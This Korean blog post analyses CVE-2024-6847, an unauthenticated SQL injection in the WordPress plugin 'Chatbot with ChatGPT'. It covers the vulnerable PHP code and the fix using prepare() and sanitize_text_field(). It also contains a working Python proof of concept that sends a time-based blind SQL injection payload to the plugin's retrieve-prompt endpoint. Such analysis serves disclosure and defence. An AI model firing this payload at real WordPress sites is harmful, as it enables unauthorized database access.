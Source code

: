 ```yaml
---
title: "[CVE-2024-6847] 취약점 분석 보고서"
date: 2025-02-21 19:50:00 +0900
author: rlaaudrb1104
categories: [One-Day 분석, WordPress]
tags: [빡공팟,콘테스트 네뷸라,WordPress, GiveWP, CVE-2024-6847, SQL Injection]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```



> ## **💡 요약**  
> **CVE-2024-6847**은 Chatbot with ChatGPT라는 워드프레스 플러그인 버전 2.4.4 이하에서 발견된 **SQL Injection**취약점입니다.
> 해당 취약점은 사용자가 제출한 메세지를 SQL문에 사용할 때 적절한 파라미터 검증과 이스케이프 처리가 이루어지지 않아 발생합니다.
> 이를 통해 인증되지 않은 사용자가 챗봇에 메시지를 제출할 때 악의적인 SQL 쿼리를 삽입하여 데이터베이스에 접근하거나 조작할 수 있습니다.

## 1. 취약점 개요

- **취약점 번호:** CVE-2024-6847  
- **영향 받는 버전:** Chatbot with ChatGPT 2.4.4 이하
- **취약점 유형:** SQL Injection
- **CVSS:** 9.8
- **취약점 패치 버전:** 3.2.16

해당 취약점은 WordPress의 Chatbot with ChatGPT 에서 발견된 **SQL Injection** 취약점입니다.

해당 취약점은 사용자가 챗봇에게 메세지를 전송할 때 `unique_conversation` 파라미터의 검증과 이스케이프 처리가 이루어지지 않아 발생하는 **SQL Injection** 취약점 입니다.

## 2. 취약점 상세

### 2.1 취약점 원인
<details>
    <summary><b>wdgpt_log_chat 함수</b></summary>

```php
    public function wdgpt_log_chat( $answer, $post_ids, $unique_conversation ) {
    $messages   = $this->wdgpt_get_last_two_messages();
    $messages[] = array(
        'role'    => 'assistant',
        'content' => $answer,
    );
    $now        = current_time( 'mysql' );
    $post_id    = implode( ',', $post_ids );
    global $wpdb;

    $existing_entry = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = '$unique_conversation'" );

    if ( $existing_entry ) {
        $existing_post_ids = explode( ',', $existing_entry->post_ids );
        $new_post_ids      = array_unique( array_merge( $existing_post_ids, $post_ids ) );
        $wpdb->update(
            $wpdb->prefix . 'wdgpt_logs',
            array(
                'post_ids'   => implode( ',', $new_post_ids ),
                'created_at' => $now,
            ),
            array( 'unique_id' => $unique_conversation )
        );
        $log_id = $wpdb->get_var( "SELECT id FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = '$unique_conversation'" );
    } else {
        $wpdb->insert(
            $wpdb->prefix . 'wdgpt_logs',
            array(
                'post_ids'   => $post_id,
                'created_at' => $now,
                'unique_id'  => $unique_conversation,
            )
        );
        $log_id = $wpdb->insert_id;
    }

    foreach ( $messages as $message ) {
        $this->wdgpt_insert_log_message( $message, $log_id );
    }
}
```

</details>

`wdgpt_log_chat` 함수에서 인자로 받아오는 `unique_conversation` 변수를 적절한 이스케이프 없이 sql 쿼리에 직접 사용하고 있기 때문에 SQL Injection이 발생합니다.
```php
public function wdgpt_log_chat( $answer, $post_ids, $unique_conversation ) {
	...
	$existing_entry = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = '$unique_conversation'" );
	...
	$log_id = $wpdb->get_var( "SELECT id FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = '$unique_conversation'" );
	...
}
```

<details>
    <summary><b>wdgpt_log_chat 함수</b></summary>

```php
function wdgpt_retrieve_prompt( $request ) {

	try {
		$params              = json_decode( $request->get_body(), true );
		$question            = $params['question'];
		$conversation        = $params['conversation'];
		$unique_conversation = $params['unique_conversation'];
		$answer_generator    = new WDGPT_Answer_Generator( $question, $conversation );
		$answer_parameters   = $answer_generator->wdgpt_retrieve_answer_parameters();

		header( 'Content-type: text/event-stream' );
		header( 'Cache-Control: no-cache' );
		// Check if $answer_parameters is an empty array.
		if ( empty( $answer_parameters ) ) {
			echo 'event: error' . PHP_EOL;
			echo 'data: ' . __( 'Currently, there appears to be an issue. Please try asking me again later.', 'webdigit-chatbot' ) . PHP_EOL;
			ob_flush();
			flush();
			return '0';
		}
		$api_key                = $answer_parameters['api_key'];
		$temperature            = $answer_parameters['temperature'];
		$messages               = json_decode( json_encode( $answer_parameters['messages'], JSON_INVALID_UTF8_SUBSTITUTE ) );
		$max_tokens             = $answer_parameters['max_tokens'];
		$model_type             = $answer_parameters['model_type'];
		$top_summaries_post_ids = $answer_parameters['top_summaries_post_ids'];
		$openai                 = new OpenAi( $api_key );

		$answer = '';

		$chat = json_decode(
			$openai->chat(
				array(
					'model'       => $model_type,
					'messages'    => $messages,
					'temperature' => floatval( $temperature ),
					'max_tokens'  => $max_tokens,
					'stream'      => true,
				),
				function ( $ch, $data ) use ( &$answer, $answer_generator ) {
					$obj = json_decode( $data );
					// Vérifiez si $obj est un objet et s'il a la propriété 'error' et si la propriété 'message' n'est pas vide.
					if ( is_object( $obj ) && property_exists( $obj, 'error' ) && ! empty( $obj->error->message ) ) {
						$answer_generator->wdgpt_insert_error_log_message( $obj->error->message, 0, 'stream_error' );
					} else {
						echo $data;
						$result = explode( 'data: ', $data );
						foreach ( $result as $res ) {
							if ( '[DONE]' !== $res ) {
								$arr = json_decode( $res, true );
								if ( isset( $arr['choices'][0]['delta']['content'] ) ) {
									$answer .= $arr['choices'][0]['delta']['content'];
								}
							}
						}

						// echo PHP_EOL;
						ob_flush();
						flush();
						return strlen( $data );
					}
				}
			)
		);

		$pattern     = '/\[(.*?)\]\((.*?)\)/';
		$replacement = '<a href="$2" target="_blank">$1</a>';

		$transformed_string = preg_replace( $pattern, $replacement, $answer );

		$transformed_string = str_replace( "\n", '<br>', $transformed_string );

		$answer_generator->wdgpt_log_chat( $transformed_string, $top_summaries_post_ids, $unique_conversation );
		return '0';
	} catch ( Exception $e ) {
		return __( 'There is currently an error with the chatbot. Please try again later.', 'webdigit' );
	}
}
```

</details>

또한 `wdgpt_log_chat` 함수를 호출하는 함수인 `wdgpt_retrieve_prompt` 함수에서도 적절한 이스케이프 없이 `wpgpt_log_chat` 함수로 전달하고 있습니다.

```php
function wdgpt_retrieve_prompt( $request ) {

	try {
		$params              = json_decode( $request->get_body(), true );
		$question            = $params['question'];
		$conversation        = $params['conversation'];
		$unique_conversation = $params['unique_conversation'];
		$answer_generator    = new WDGPT_Answer_Generator( $question, $conversation );
		$answer_parameters   = $answer_generator->wdgpt_retrieve_answer_parameters();
		...
		$answer_generator->wdgpt_log_chat( $transformed_string, $top_summaries_post_ids, $unique_conversation );
		return '0';
	} catch ( Exception $e ) {
		return __( 'There is currently an error with the chatbot. Please try again later.', 'webdigit' );
	}
}
```
따라서 사용자는 `unique_conversation` 매개변수를 통해 SQL Injection을 수행할 수 있게 됩니다.

## 3. PoC

### 3.1 PoC 코드

```python
import requests
import time

url = "http://localhost:8081/wp-json/wdgpt/v1/retrieve-prompt"

payload = "mlg4w8is9cnlxonnq78' AND (SELECT 1 FROM (SELECT SLEEP(7))A) AND '1'='1"

conversation_data = [
    {
      "text": "Test",
      "role": "user",
      "date": "2025-01-24T12:16:42.179Z"
    }
  ]

headers = {
    "Content-Type": "text/plain;charset=UTF-8",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36",
    "Accept": "*/*",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}

data = {
    "question": "test sql injection",
    "conversation": conversation_data,
    "unique_conversation": payload
}

start_time = time.time()
response = requests.post(url, json=data, headers=headers)

end_time = time.time()

response_time = end_time - start_time
if response_time > 7:
    print(f"SQL Injection successful. Response delay: {response_time:.2f} seconds.")
else:
    print("SQL Injection not successful or server did not delay.")
    
print(response.text)
```

### 3.2 주요 기능

- **URL**: `url` 변수에는 요청을 보내야 할 API 엔드포인트가 포함됩니다. 여기서는 `http://localhost:8081/wp-json/wdgpt/v1/retrieve-prompt`를 사용합니다.

- **Payload**: `payload` 변수는 SQL 인젝션 페이로드입니다. 이는 `unique_conversation` 값에 삽입되며, `SLEEP(7)`을 사용하여 서버의 응답을 7초 동안 지연시킵니다.

- **Headers**: 요청의 헤더 정보입니다. 일반적인 HTTP 요청을 위해 필요한 정보를 설정합니다.

- **Data**: 요청 본문에 포함될 데이터를 구성하는 부분으로, `question`, `conversation`, 그리고 악성 SQL 인젝션 페이로드가 포함된 `unique_conversation` 값이 포함됩니다.

- **Response Time**: 서버의 응답 시간을 측정하여 `SLEEP(7)`이 실행되었는지 확인합니다. 응답 시간이 7초 이상일 경우, SQL 인젝션 공격이 성공적으로 실행되었음을 나타냅니다.

### 결과 확인

- **성공적인 SQL 인젝션**: 만약 서버가 7초 이상 지연된 응답을 보낸다면, 이는 SQL 인젝션이 성공적으로 이루어졌다는 신호입니다. 이 경우 `SQL Injection successful` 메시지가 출력됩니다.

- **실패한 SQL 인젝션**: 응답 지연 시간이 7초 이하일 경우, SQL 인젝션이 성공하지 않았거나 서버가 이를 방어했다는 것을 의미합니다.

## 4. 패치 내용 및 변경사항 분석

```
diff --git a/path/to/file.php b/path/to/file.php
index 1234567..89abcde 100644
--- a/path/to/file.php
+++ b/path/to/file.php
@@ 기존 DB 쿼리 부분
- $existing_entry = $wpdb->get_row( "SELECT * FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = '$unique_conversation'" );
+ $existing_entry = $wpdb->get_row( $wpdb->prepare(
+     "SELECT * FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = %s",
+     $unique_conversation
+ ) );
@@ 사용자 입력 sanitization 부분
- $question            = $params['question'];
- $conversation        = $params['conversation'];
- $unique_conversation = $params['unique_conversation'];
+ $question            = sanitize_text_field( $params['question'] );
+ $conversation = array_map(function($conv) {
+     return [
+         'text' => sanitize_text_field( $conv['text'] ),
+         'role' => sanitize_text_field( $conv['role'] ),
+         'date' => sanitize_text_field( $conv['date'] )
+     ];
+ }, $params['conversation']);
+ $unique_conversation = sanitize_text_field( $params['unique_conversation'] );
```

SQL Injection 취약점을 해결하기 위해, 다음과 같은 수정이 이루어졌습니다.

### 4.1 `prepare()` 사용

수정된 코드는 SQL 쿼리에서 `wpdb->prepare()`를 사용하여 `unique_conversation` 값을 안전하게 처리합니다. 이 메서드는 SQL 쿼리 내에 사용될 변수를 안전하게 escaping 처리하여 SQL 인젝션을 방지합니다.

```php
$existing_entry = $wpdb->get_row( $wpdb->prepare(
    "SELECT * FROM {$wpdb->prefix}wdgpt_logs WHERE unique_id = %s",
    $unique_conversation
));
```

### 4.2 `sanitize_text_field()` 사용
또한, `unique_conversation` 값은 입력받은 후 `sanitize_text_field()` 함수로 처리됩니다. 이 함수는 텍스트 필드에서 불필요한 HTML 태그나 특수 문자를 제거하여, 악의적인 스크립트나 SQL 쿼리를 삽입할 수 없도록 만듭니다.

```php
$unique_conversation = sanitize_text_field($params['unique_conversation']);
```